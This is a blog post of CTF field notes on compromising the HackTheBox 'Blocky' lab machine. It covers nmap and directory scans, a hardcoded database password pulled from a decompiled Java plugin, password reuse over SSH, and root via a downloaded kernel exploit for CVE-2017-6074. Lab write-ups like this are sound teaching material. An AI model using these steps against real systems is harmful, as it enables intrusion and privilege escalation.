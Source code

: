 ```yaml
---
layout: post
title: "HackTheBox - Blocky - CTF Notes"
tagline: "Owning Blocky on HackTheBox"
description: "The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ HackTheBox.eu"
date:   2017-12-13
comments: true
image:
  feature: blog/2/feature.jpg
  hero: blog/2/header.jpg
  tags: [ctf, hackthebox, labs, notes]
---
```


## Introduction
The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ [HackTheBox.eu](https://hackthebox.eu)

This post essentially contains the field notes I took as I was working my way through the box. With that in mind, I don't really go into detail about the commands I use and this isn't really a proper writeup. I might come back and touch it up later or I might just leave this as is. ¯\\\_(ツ)_/¯

## Port Scanning
First off let's check what ports are open.

```shell_session
nmap 10.10.10.37
Starting Nmap 7.60 ( https://nmap.org )
Nmap scan report for 10.10.10.37
Host is up (0.18s latency).
Not shown: 996 filtered ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
8192/tcp closed sophos
Nmap done: 1 IP address (1 host up) scanned in 18.88 seconds
```
Cool, we've got ftp (21), ssh (22) and http (80)

## Identification
Let's take a quick look at the headers on the web server

```shell_session
curl -I 10.10.10.37
```

```http
HTTP/1.1 200 OK
Server: Apache/2.4.18 (Ubuntu)
Link: <http://10.10.10.37/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```
It’s wordpress!

View-source:http://10.10.10.37 reveals we are working with Wordpress version 4.8.0 and there are no obvious plugins. Might come back with WPScan later.

/authors shows one user, “Notch”

Version 4.8.0 is affected by [a handful of vulnerabilities](https://wpvulndb.com/wordpresses/48) which we will come back too if needed.

## Enumeration
Let's do some directory enumeration...

```shell_session
uniscan -q -u http://10.10.10.37/
```

```
####################################
# Uniscan project #
# http://uniscan.sourceforge.net/ #
####################################
V. 6.3
======================================================================
=============================
| Domain: http://10.10.10.37/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 10.10.10.37
======================================================================
=============================
|
| Directory check:
| [+] CODE: 200 URL: http://10.10.10.37/phpmyadmin/
| [+] CODE: 200 URL: http://10.10.10.37/plugins/
| [+] CODE: 200 URL: http://10.10.10.37/wiki/
| [+] CODE: 200 URL: http://10.10.10.37/wp-admin/
======================================================================
=============================
======================================================================
=============================
HTML report saved in: report/10.10.10.37.html
```

## Further Identification
View-source:http://10.10.10.37/phpmyadmin reveals version string [4.5.4.1deb2ubuntu2](https://www.phpmyadmin.net/files/4.5.4.1/) which was released on 2016-01-29.

[CVE-2016-5734](https://www.exploit-db.com/exploits/40185/) Affects this version.

Gonna keep digging…

http://10.10.10.37/wiki
(development page, will enumerate later)

http://10.10.10.37/plugins/
Cute File Browser

http://10.10.10.37/plugins/files/
Two java files found

http://10.10.10.37/plugins/files/BlockyCore.jar

http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar

```shell_session
jar -xf BlockyCore.jar
cd com/myfirstplugin/
Jad BlockyCore.class
```
Found:
```java
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

## Password Reuse

Check credentials on PHPMYAdmin.... We’re in!

Check password against other users seen in db

One user in wp_users

```sql
Notch $P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/ notch notch@blockcraftfake.com
```

Testing sql pass on wordpress user failed, no pw reuse there.

Modifying user_pass or creating new wp user gives back-end access to WP, from there we could upload a shell as www-data.
Could also have used CVE-2016-5734 on PHPMyAdmin to get a shell.

Testing password over ssh

```shell_session
ssh root@10.10.10.37
```

Failed no pw reuse

```shell_session
ssh notch@10.10.10.37
```

total success

```shell_session
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
7 packages can be updated.
7 updates are security updates.
Last login: Sun Oct 29 11:09:42 2017 from 10.10.14.13
```

## Privilege Escalation
At this point we have the user flag, now let's get that root flag.

```shell_session
notch@Blocky:~$ uname -r
4.4.0-62-generic
```


Kernel 4.4.0-62-generic is impacted by [CVE-2017-6074](https://www.cvedetails.com/cve/CVE-2017-6074/)

On local machine
```shell_session
wget https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-6074/poc.c
```

```shell_session
gcc poc.c -o pwn
```

Transfer file over to target

`./pwn` as `notch` or `www-data` will cause root

Edit: Upon reading [another writeup](https://gist.github.com/berzerk0/1a6270d3cacf30c3b5cff82c7f53bf4c) I realized I overlooked something. It seems exploiting CVE-2017-6074 was unnecessary as the user `notch` was actually an admin. Exploiting the above CVE would still have been useful if we had gotten a shell as `www-data` or another under privileged user.

## Summary

Blocky was a relatively easy system to pwn. Leaving credentials in the java file was a cool touch and is actually something I see often in my work engagements. This box featured a combination of plain-text credential storage, password reuse, and old software.

If you found this helpful, feel free to [give me a +1](https://www.hackthebox.eu/home/users/profile/14010) on HackTheBox.
